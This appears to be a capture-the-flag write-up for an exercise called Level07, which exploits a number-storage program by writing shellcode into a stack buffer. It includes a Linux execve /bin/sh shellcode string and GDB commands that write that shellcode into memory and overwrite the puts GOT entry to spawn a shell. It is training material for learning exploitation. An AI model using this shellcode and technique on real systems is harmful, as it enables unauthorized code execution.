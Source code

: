 # Tools
[Dogbolt - Decompiler Explorator](https://dogbolt.org/)
[Cutter - Reverse Engineering Tool](https://cutter.re/)
[GNU DeBugger - GDB](https://fr.wikipedia.org/wiki/GNU_Debugger)

# Exploit 
Level07 

# Explanation
TODO check if we can write at a specific address?
TODO write somme shell or command inside of the nbs

Basically, the idea is:
- Write something using the store command in the buffer nbs, that's on the stack (each int makes 4 char)
- Redirect execution by rewriting the return address with the address of the buffer nbs using the store command

Max Index is 686 or 687:
```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 686
 Index: 686
 Completed store command successfully
Input command: store 688
 Number: 688
 Index: 688
Segmentation fault (core dumped)
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 687
 Index: 687
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
```


Start of the nbs buffer at: `0xffffd528`
```
0xffffd520:	0x00000000	0x00000000	0x41414141	0x00000000
```

Last address before segfault (`x/800x $esp`):
```
0xffffdfd0:	0x00000000	0x00000000	0x00000000	0x42424242
```


Shellcode: 
```
"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
```

```
Shellcode:
0xe1f7c931 0x2f2f6851 0x2f686873 0x896e6962 0xcd0bb0e3 0x00000080
Addresses:
0xffffd528 0xffffd52c 0xffffd530 0xffffd534 0xffffd538 0xffffd53c
```

Performing the exploit with GDB:
```
(gdb) set {int}0xffffd528=0xe1f7c931
(gdb) set {int}0xffffd52c=0x2f2f6851
(gdb) set {int}0xffffd530=0x2f686873
(gdb) set {int}0xffffd534=0x896e6962
(gdb) set {int}0xffffd538=0xcd0bb0e3
(gdb) set {int}0xffffd53c=0x00000080
(gdb) info functions
...
0x080484c0  puts
0x080484c0  puts@plt
...
(gdb) disass 0x080484c0
Dump of assembler code for function puts@plt:
   0x080484c0 <+0>:	jmp    DWORD PTR ds:0x804a014
   0x080484c6 <+6>:	push   0x28
   0x080484cb <+11>:	jmp    0x8048460
End of assembler dump.
(gdb) x 0x804a014
0x804a014 <puts@got.plt>:	0xc0
(gdb) set {int}0x804a014=0xffffd528
(gdb) c
Continuing.
 Number: 1
 Index: 3
process 3693 is executing new program: /bin/dash
warning: Selected architecture i386:x86-64 is not compatible with reported target architecture i386
Architecture of file not recognized.
```

# Resources
[Shellcode from kernel_panik](https://shell-storm.org/shellcode/files/shellcode-752.html)